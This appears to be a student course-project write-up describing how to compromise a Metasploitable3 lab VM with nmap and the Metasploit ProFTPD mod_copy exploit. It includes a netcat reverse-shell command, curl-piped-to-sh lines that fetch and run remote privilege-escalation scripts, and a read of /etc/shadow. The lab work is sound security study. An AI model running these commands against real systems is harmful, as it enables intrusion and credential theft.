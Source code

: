 # 📚 Phase 1: Setup and Compromise the Service

---

## 🛠️ 1. Environment Setup

### 1.1 Import Victim VM (Metasploitable3)

- Downloaded `.ova` file from [SourceForge](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)
- Open VirtualBox → File → Import Appliance
- Customized settings (RAM=2048MB, CPU=2)

**Screenshots:**
- ![1-virtualbox_attacker_machine.png](./screenshots/1-virtualbox_attacker_machine.png)
- ![2-import_appliance_option.png](./screenshots/2-import_appliance_option.png)
- ![3-select_metasploitable3_ova.png](./screenshots/3-select_metasploitable3_ova.png)
- ![4-import_appliance_settings.png](./screenshots/4-import_appliance_settings.png)
- ![5-import_progress.png](./screenshots/5-import_progress.png)

---

### 1.2 Boot the Victim VM

- Started VM with credentials:
  - `username: vagrant`
  - `password: vagrant`

**Screenshot:**
- ![6-metasploitable3_login_success.png](./screenshots/6-metasploitable3_login_success.png)

---

### 1.3 Obtain Victim IP Address

- Victim (Metasploitable3) IP: `10.0.2.15`
- Attacker (Kali) IP: `10.0.2.6`

**Screenshots:**
- ![7-ifconfig_command.png](./screenshots/7-ifconfig_command.png)
- ![8-victim_ip_found.png](./screenshots/8-victim_ip_found.png)

---

### 1.4 Confirm Network Connectivity

- Pinged victim from attacker:
```bash
ping 10.0.2.15
```

**Screenshot:**
- ![9-kali_ping_success.png](./screenshots/9-kali_ping_success.png)

---

# 💣 2. TASK 1.1: Compromise Service Using Metasploit

---

## 2.1 Scan Victim with Nmap

```bash
nmap -sV 10.0.2.15
```
- Discovered ProFTPD 1.3.5 on port 21

**Screenshot:**
- ![10-nmap_scan_results.png](./screenshots/10-nmap_scan_results.png)

---

## 2.2 Launch Metasploit Console

```bash
sudo msfconsole
```

**Screenshot:**
- ![11-start_msfconsole.png](./screenshots/11-start_msfconsole.png)

---

## 2.3 Search and Use Exploit

```bash
search mod_copy
use 0
```

**Screenshot:**
- ![12-search_and_use_modcopy_exploit.png](./screenshots/12-search_and_use_modcopy_exploit.png)

---

## 2.4 Configure Exploit Options

```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```

**Screenshot:**
- ![13-configure_rhosts_sitepath.png](./screenshots/13-configure_rhosts_sitepath.png)

---

## 2.5 Configure Payload and Reverse Shell Command

```bash
set payload 5
set LHOST 10.0.2.6
set LPORT 4444
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```

**Screenshot:**
- ![14-set_payload_and_reverse_shell_command.png](./screenshots/14-set_payload_and_reverse_shell_command.png)

---

## 2.6 Start Netcat Listener (Terminal A)

```bash
nc -lnvp 4444
```

**Screenshot:**
- ![15-start_nc_listener.png](./screenshots/15-start_nc_listener.png)

---

## 2.7 Run Exploit (Terminal B)

```bash
run
```

**Screenshot:**
- ![16-run_exploit.png](./screenshots/16-run_exploit.png)

---

## 2.8 Confirm Reverse Shell Access

```bash
whoami
ls
```

**Screenshot:**
- ![17-confirm_shell_access.png](./screenshots/17-confirm_shell_access.png)

---

# 🛠️ 3. TASK 1.2: Custom Scripts & Privilege Escalation

---

## 3.1 Run Custom Enumeration Script (lightpeas.sh)

```bash
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
```

**Screenshot:**
- ![18-run_lightpeas_script.png](./screenshots/18-run_lightpeas_script.png)

---

## 3.2 Execute Custom Privilege Escalation (escalate.sh)

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
```

**Screenshot:**
- ![19-run_escalate_script.png](./screenshots/19-run_escalate_script.png)

---

## 3.3 Confirm Root Access

```bash
whoami
cat /etc/shadow
```

**Screenshot:**
- ![20-confirm_root_access.png](./screenshots/20-confirm_root_access.png)

---

# 📆 Custom Scripts Used

| Script | Purpose |
|:------|:--------|
| `lightpeas.sh` | Local enumeration script (gather system info) |
| `ExploitRoot.c` | Custom compiled PwnKit-based root exploit |
| `escalate.sh` | Automated script to compile and run ExploitRoot.c |

✅ Located at: `phase1/custom/`

---
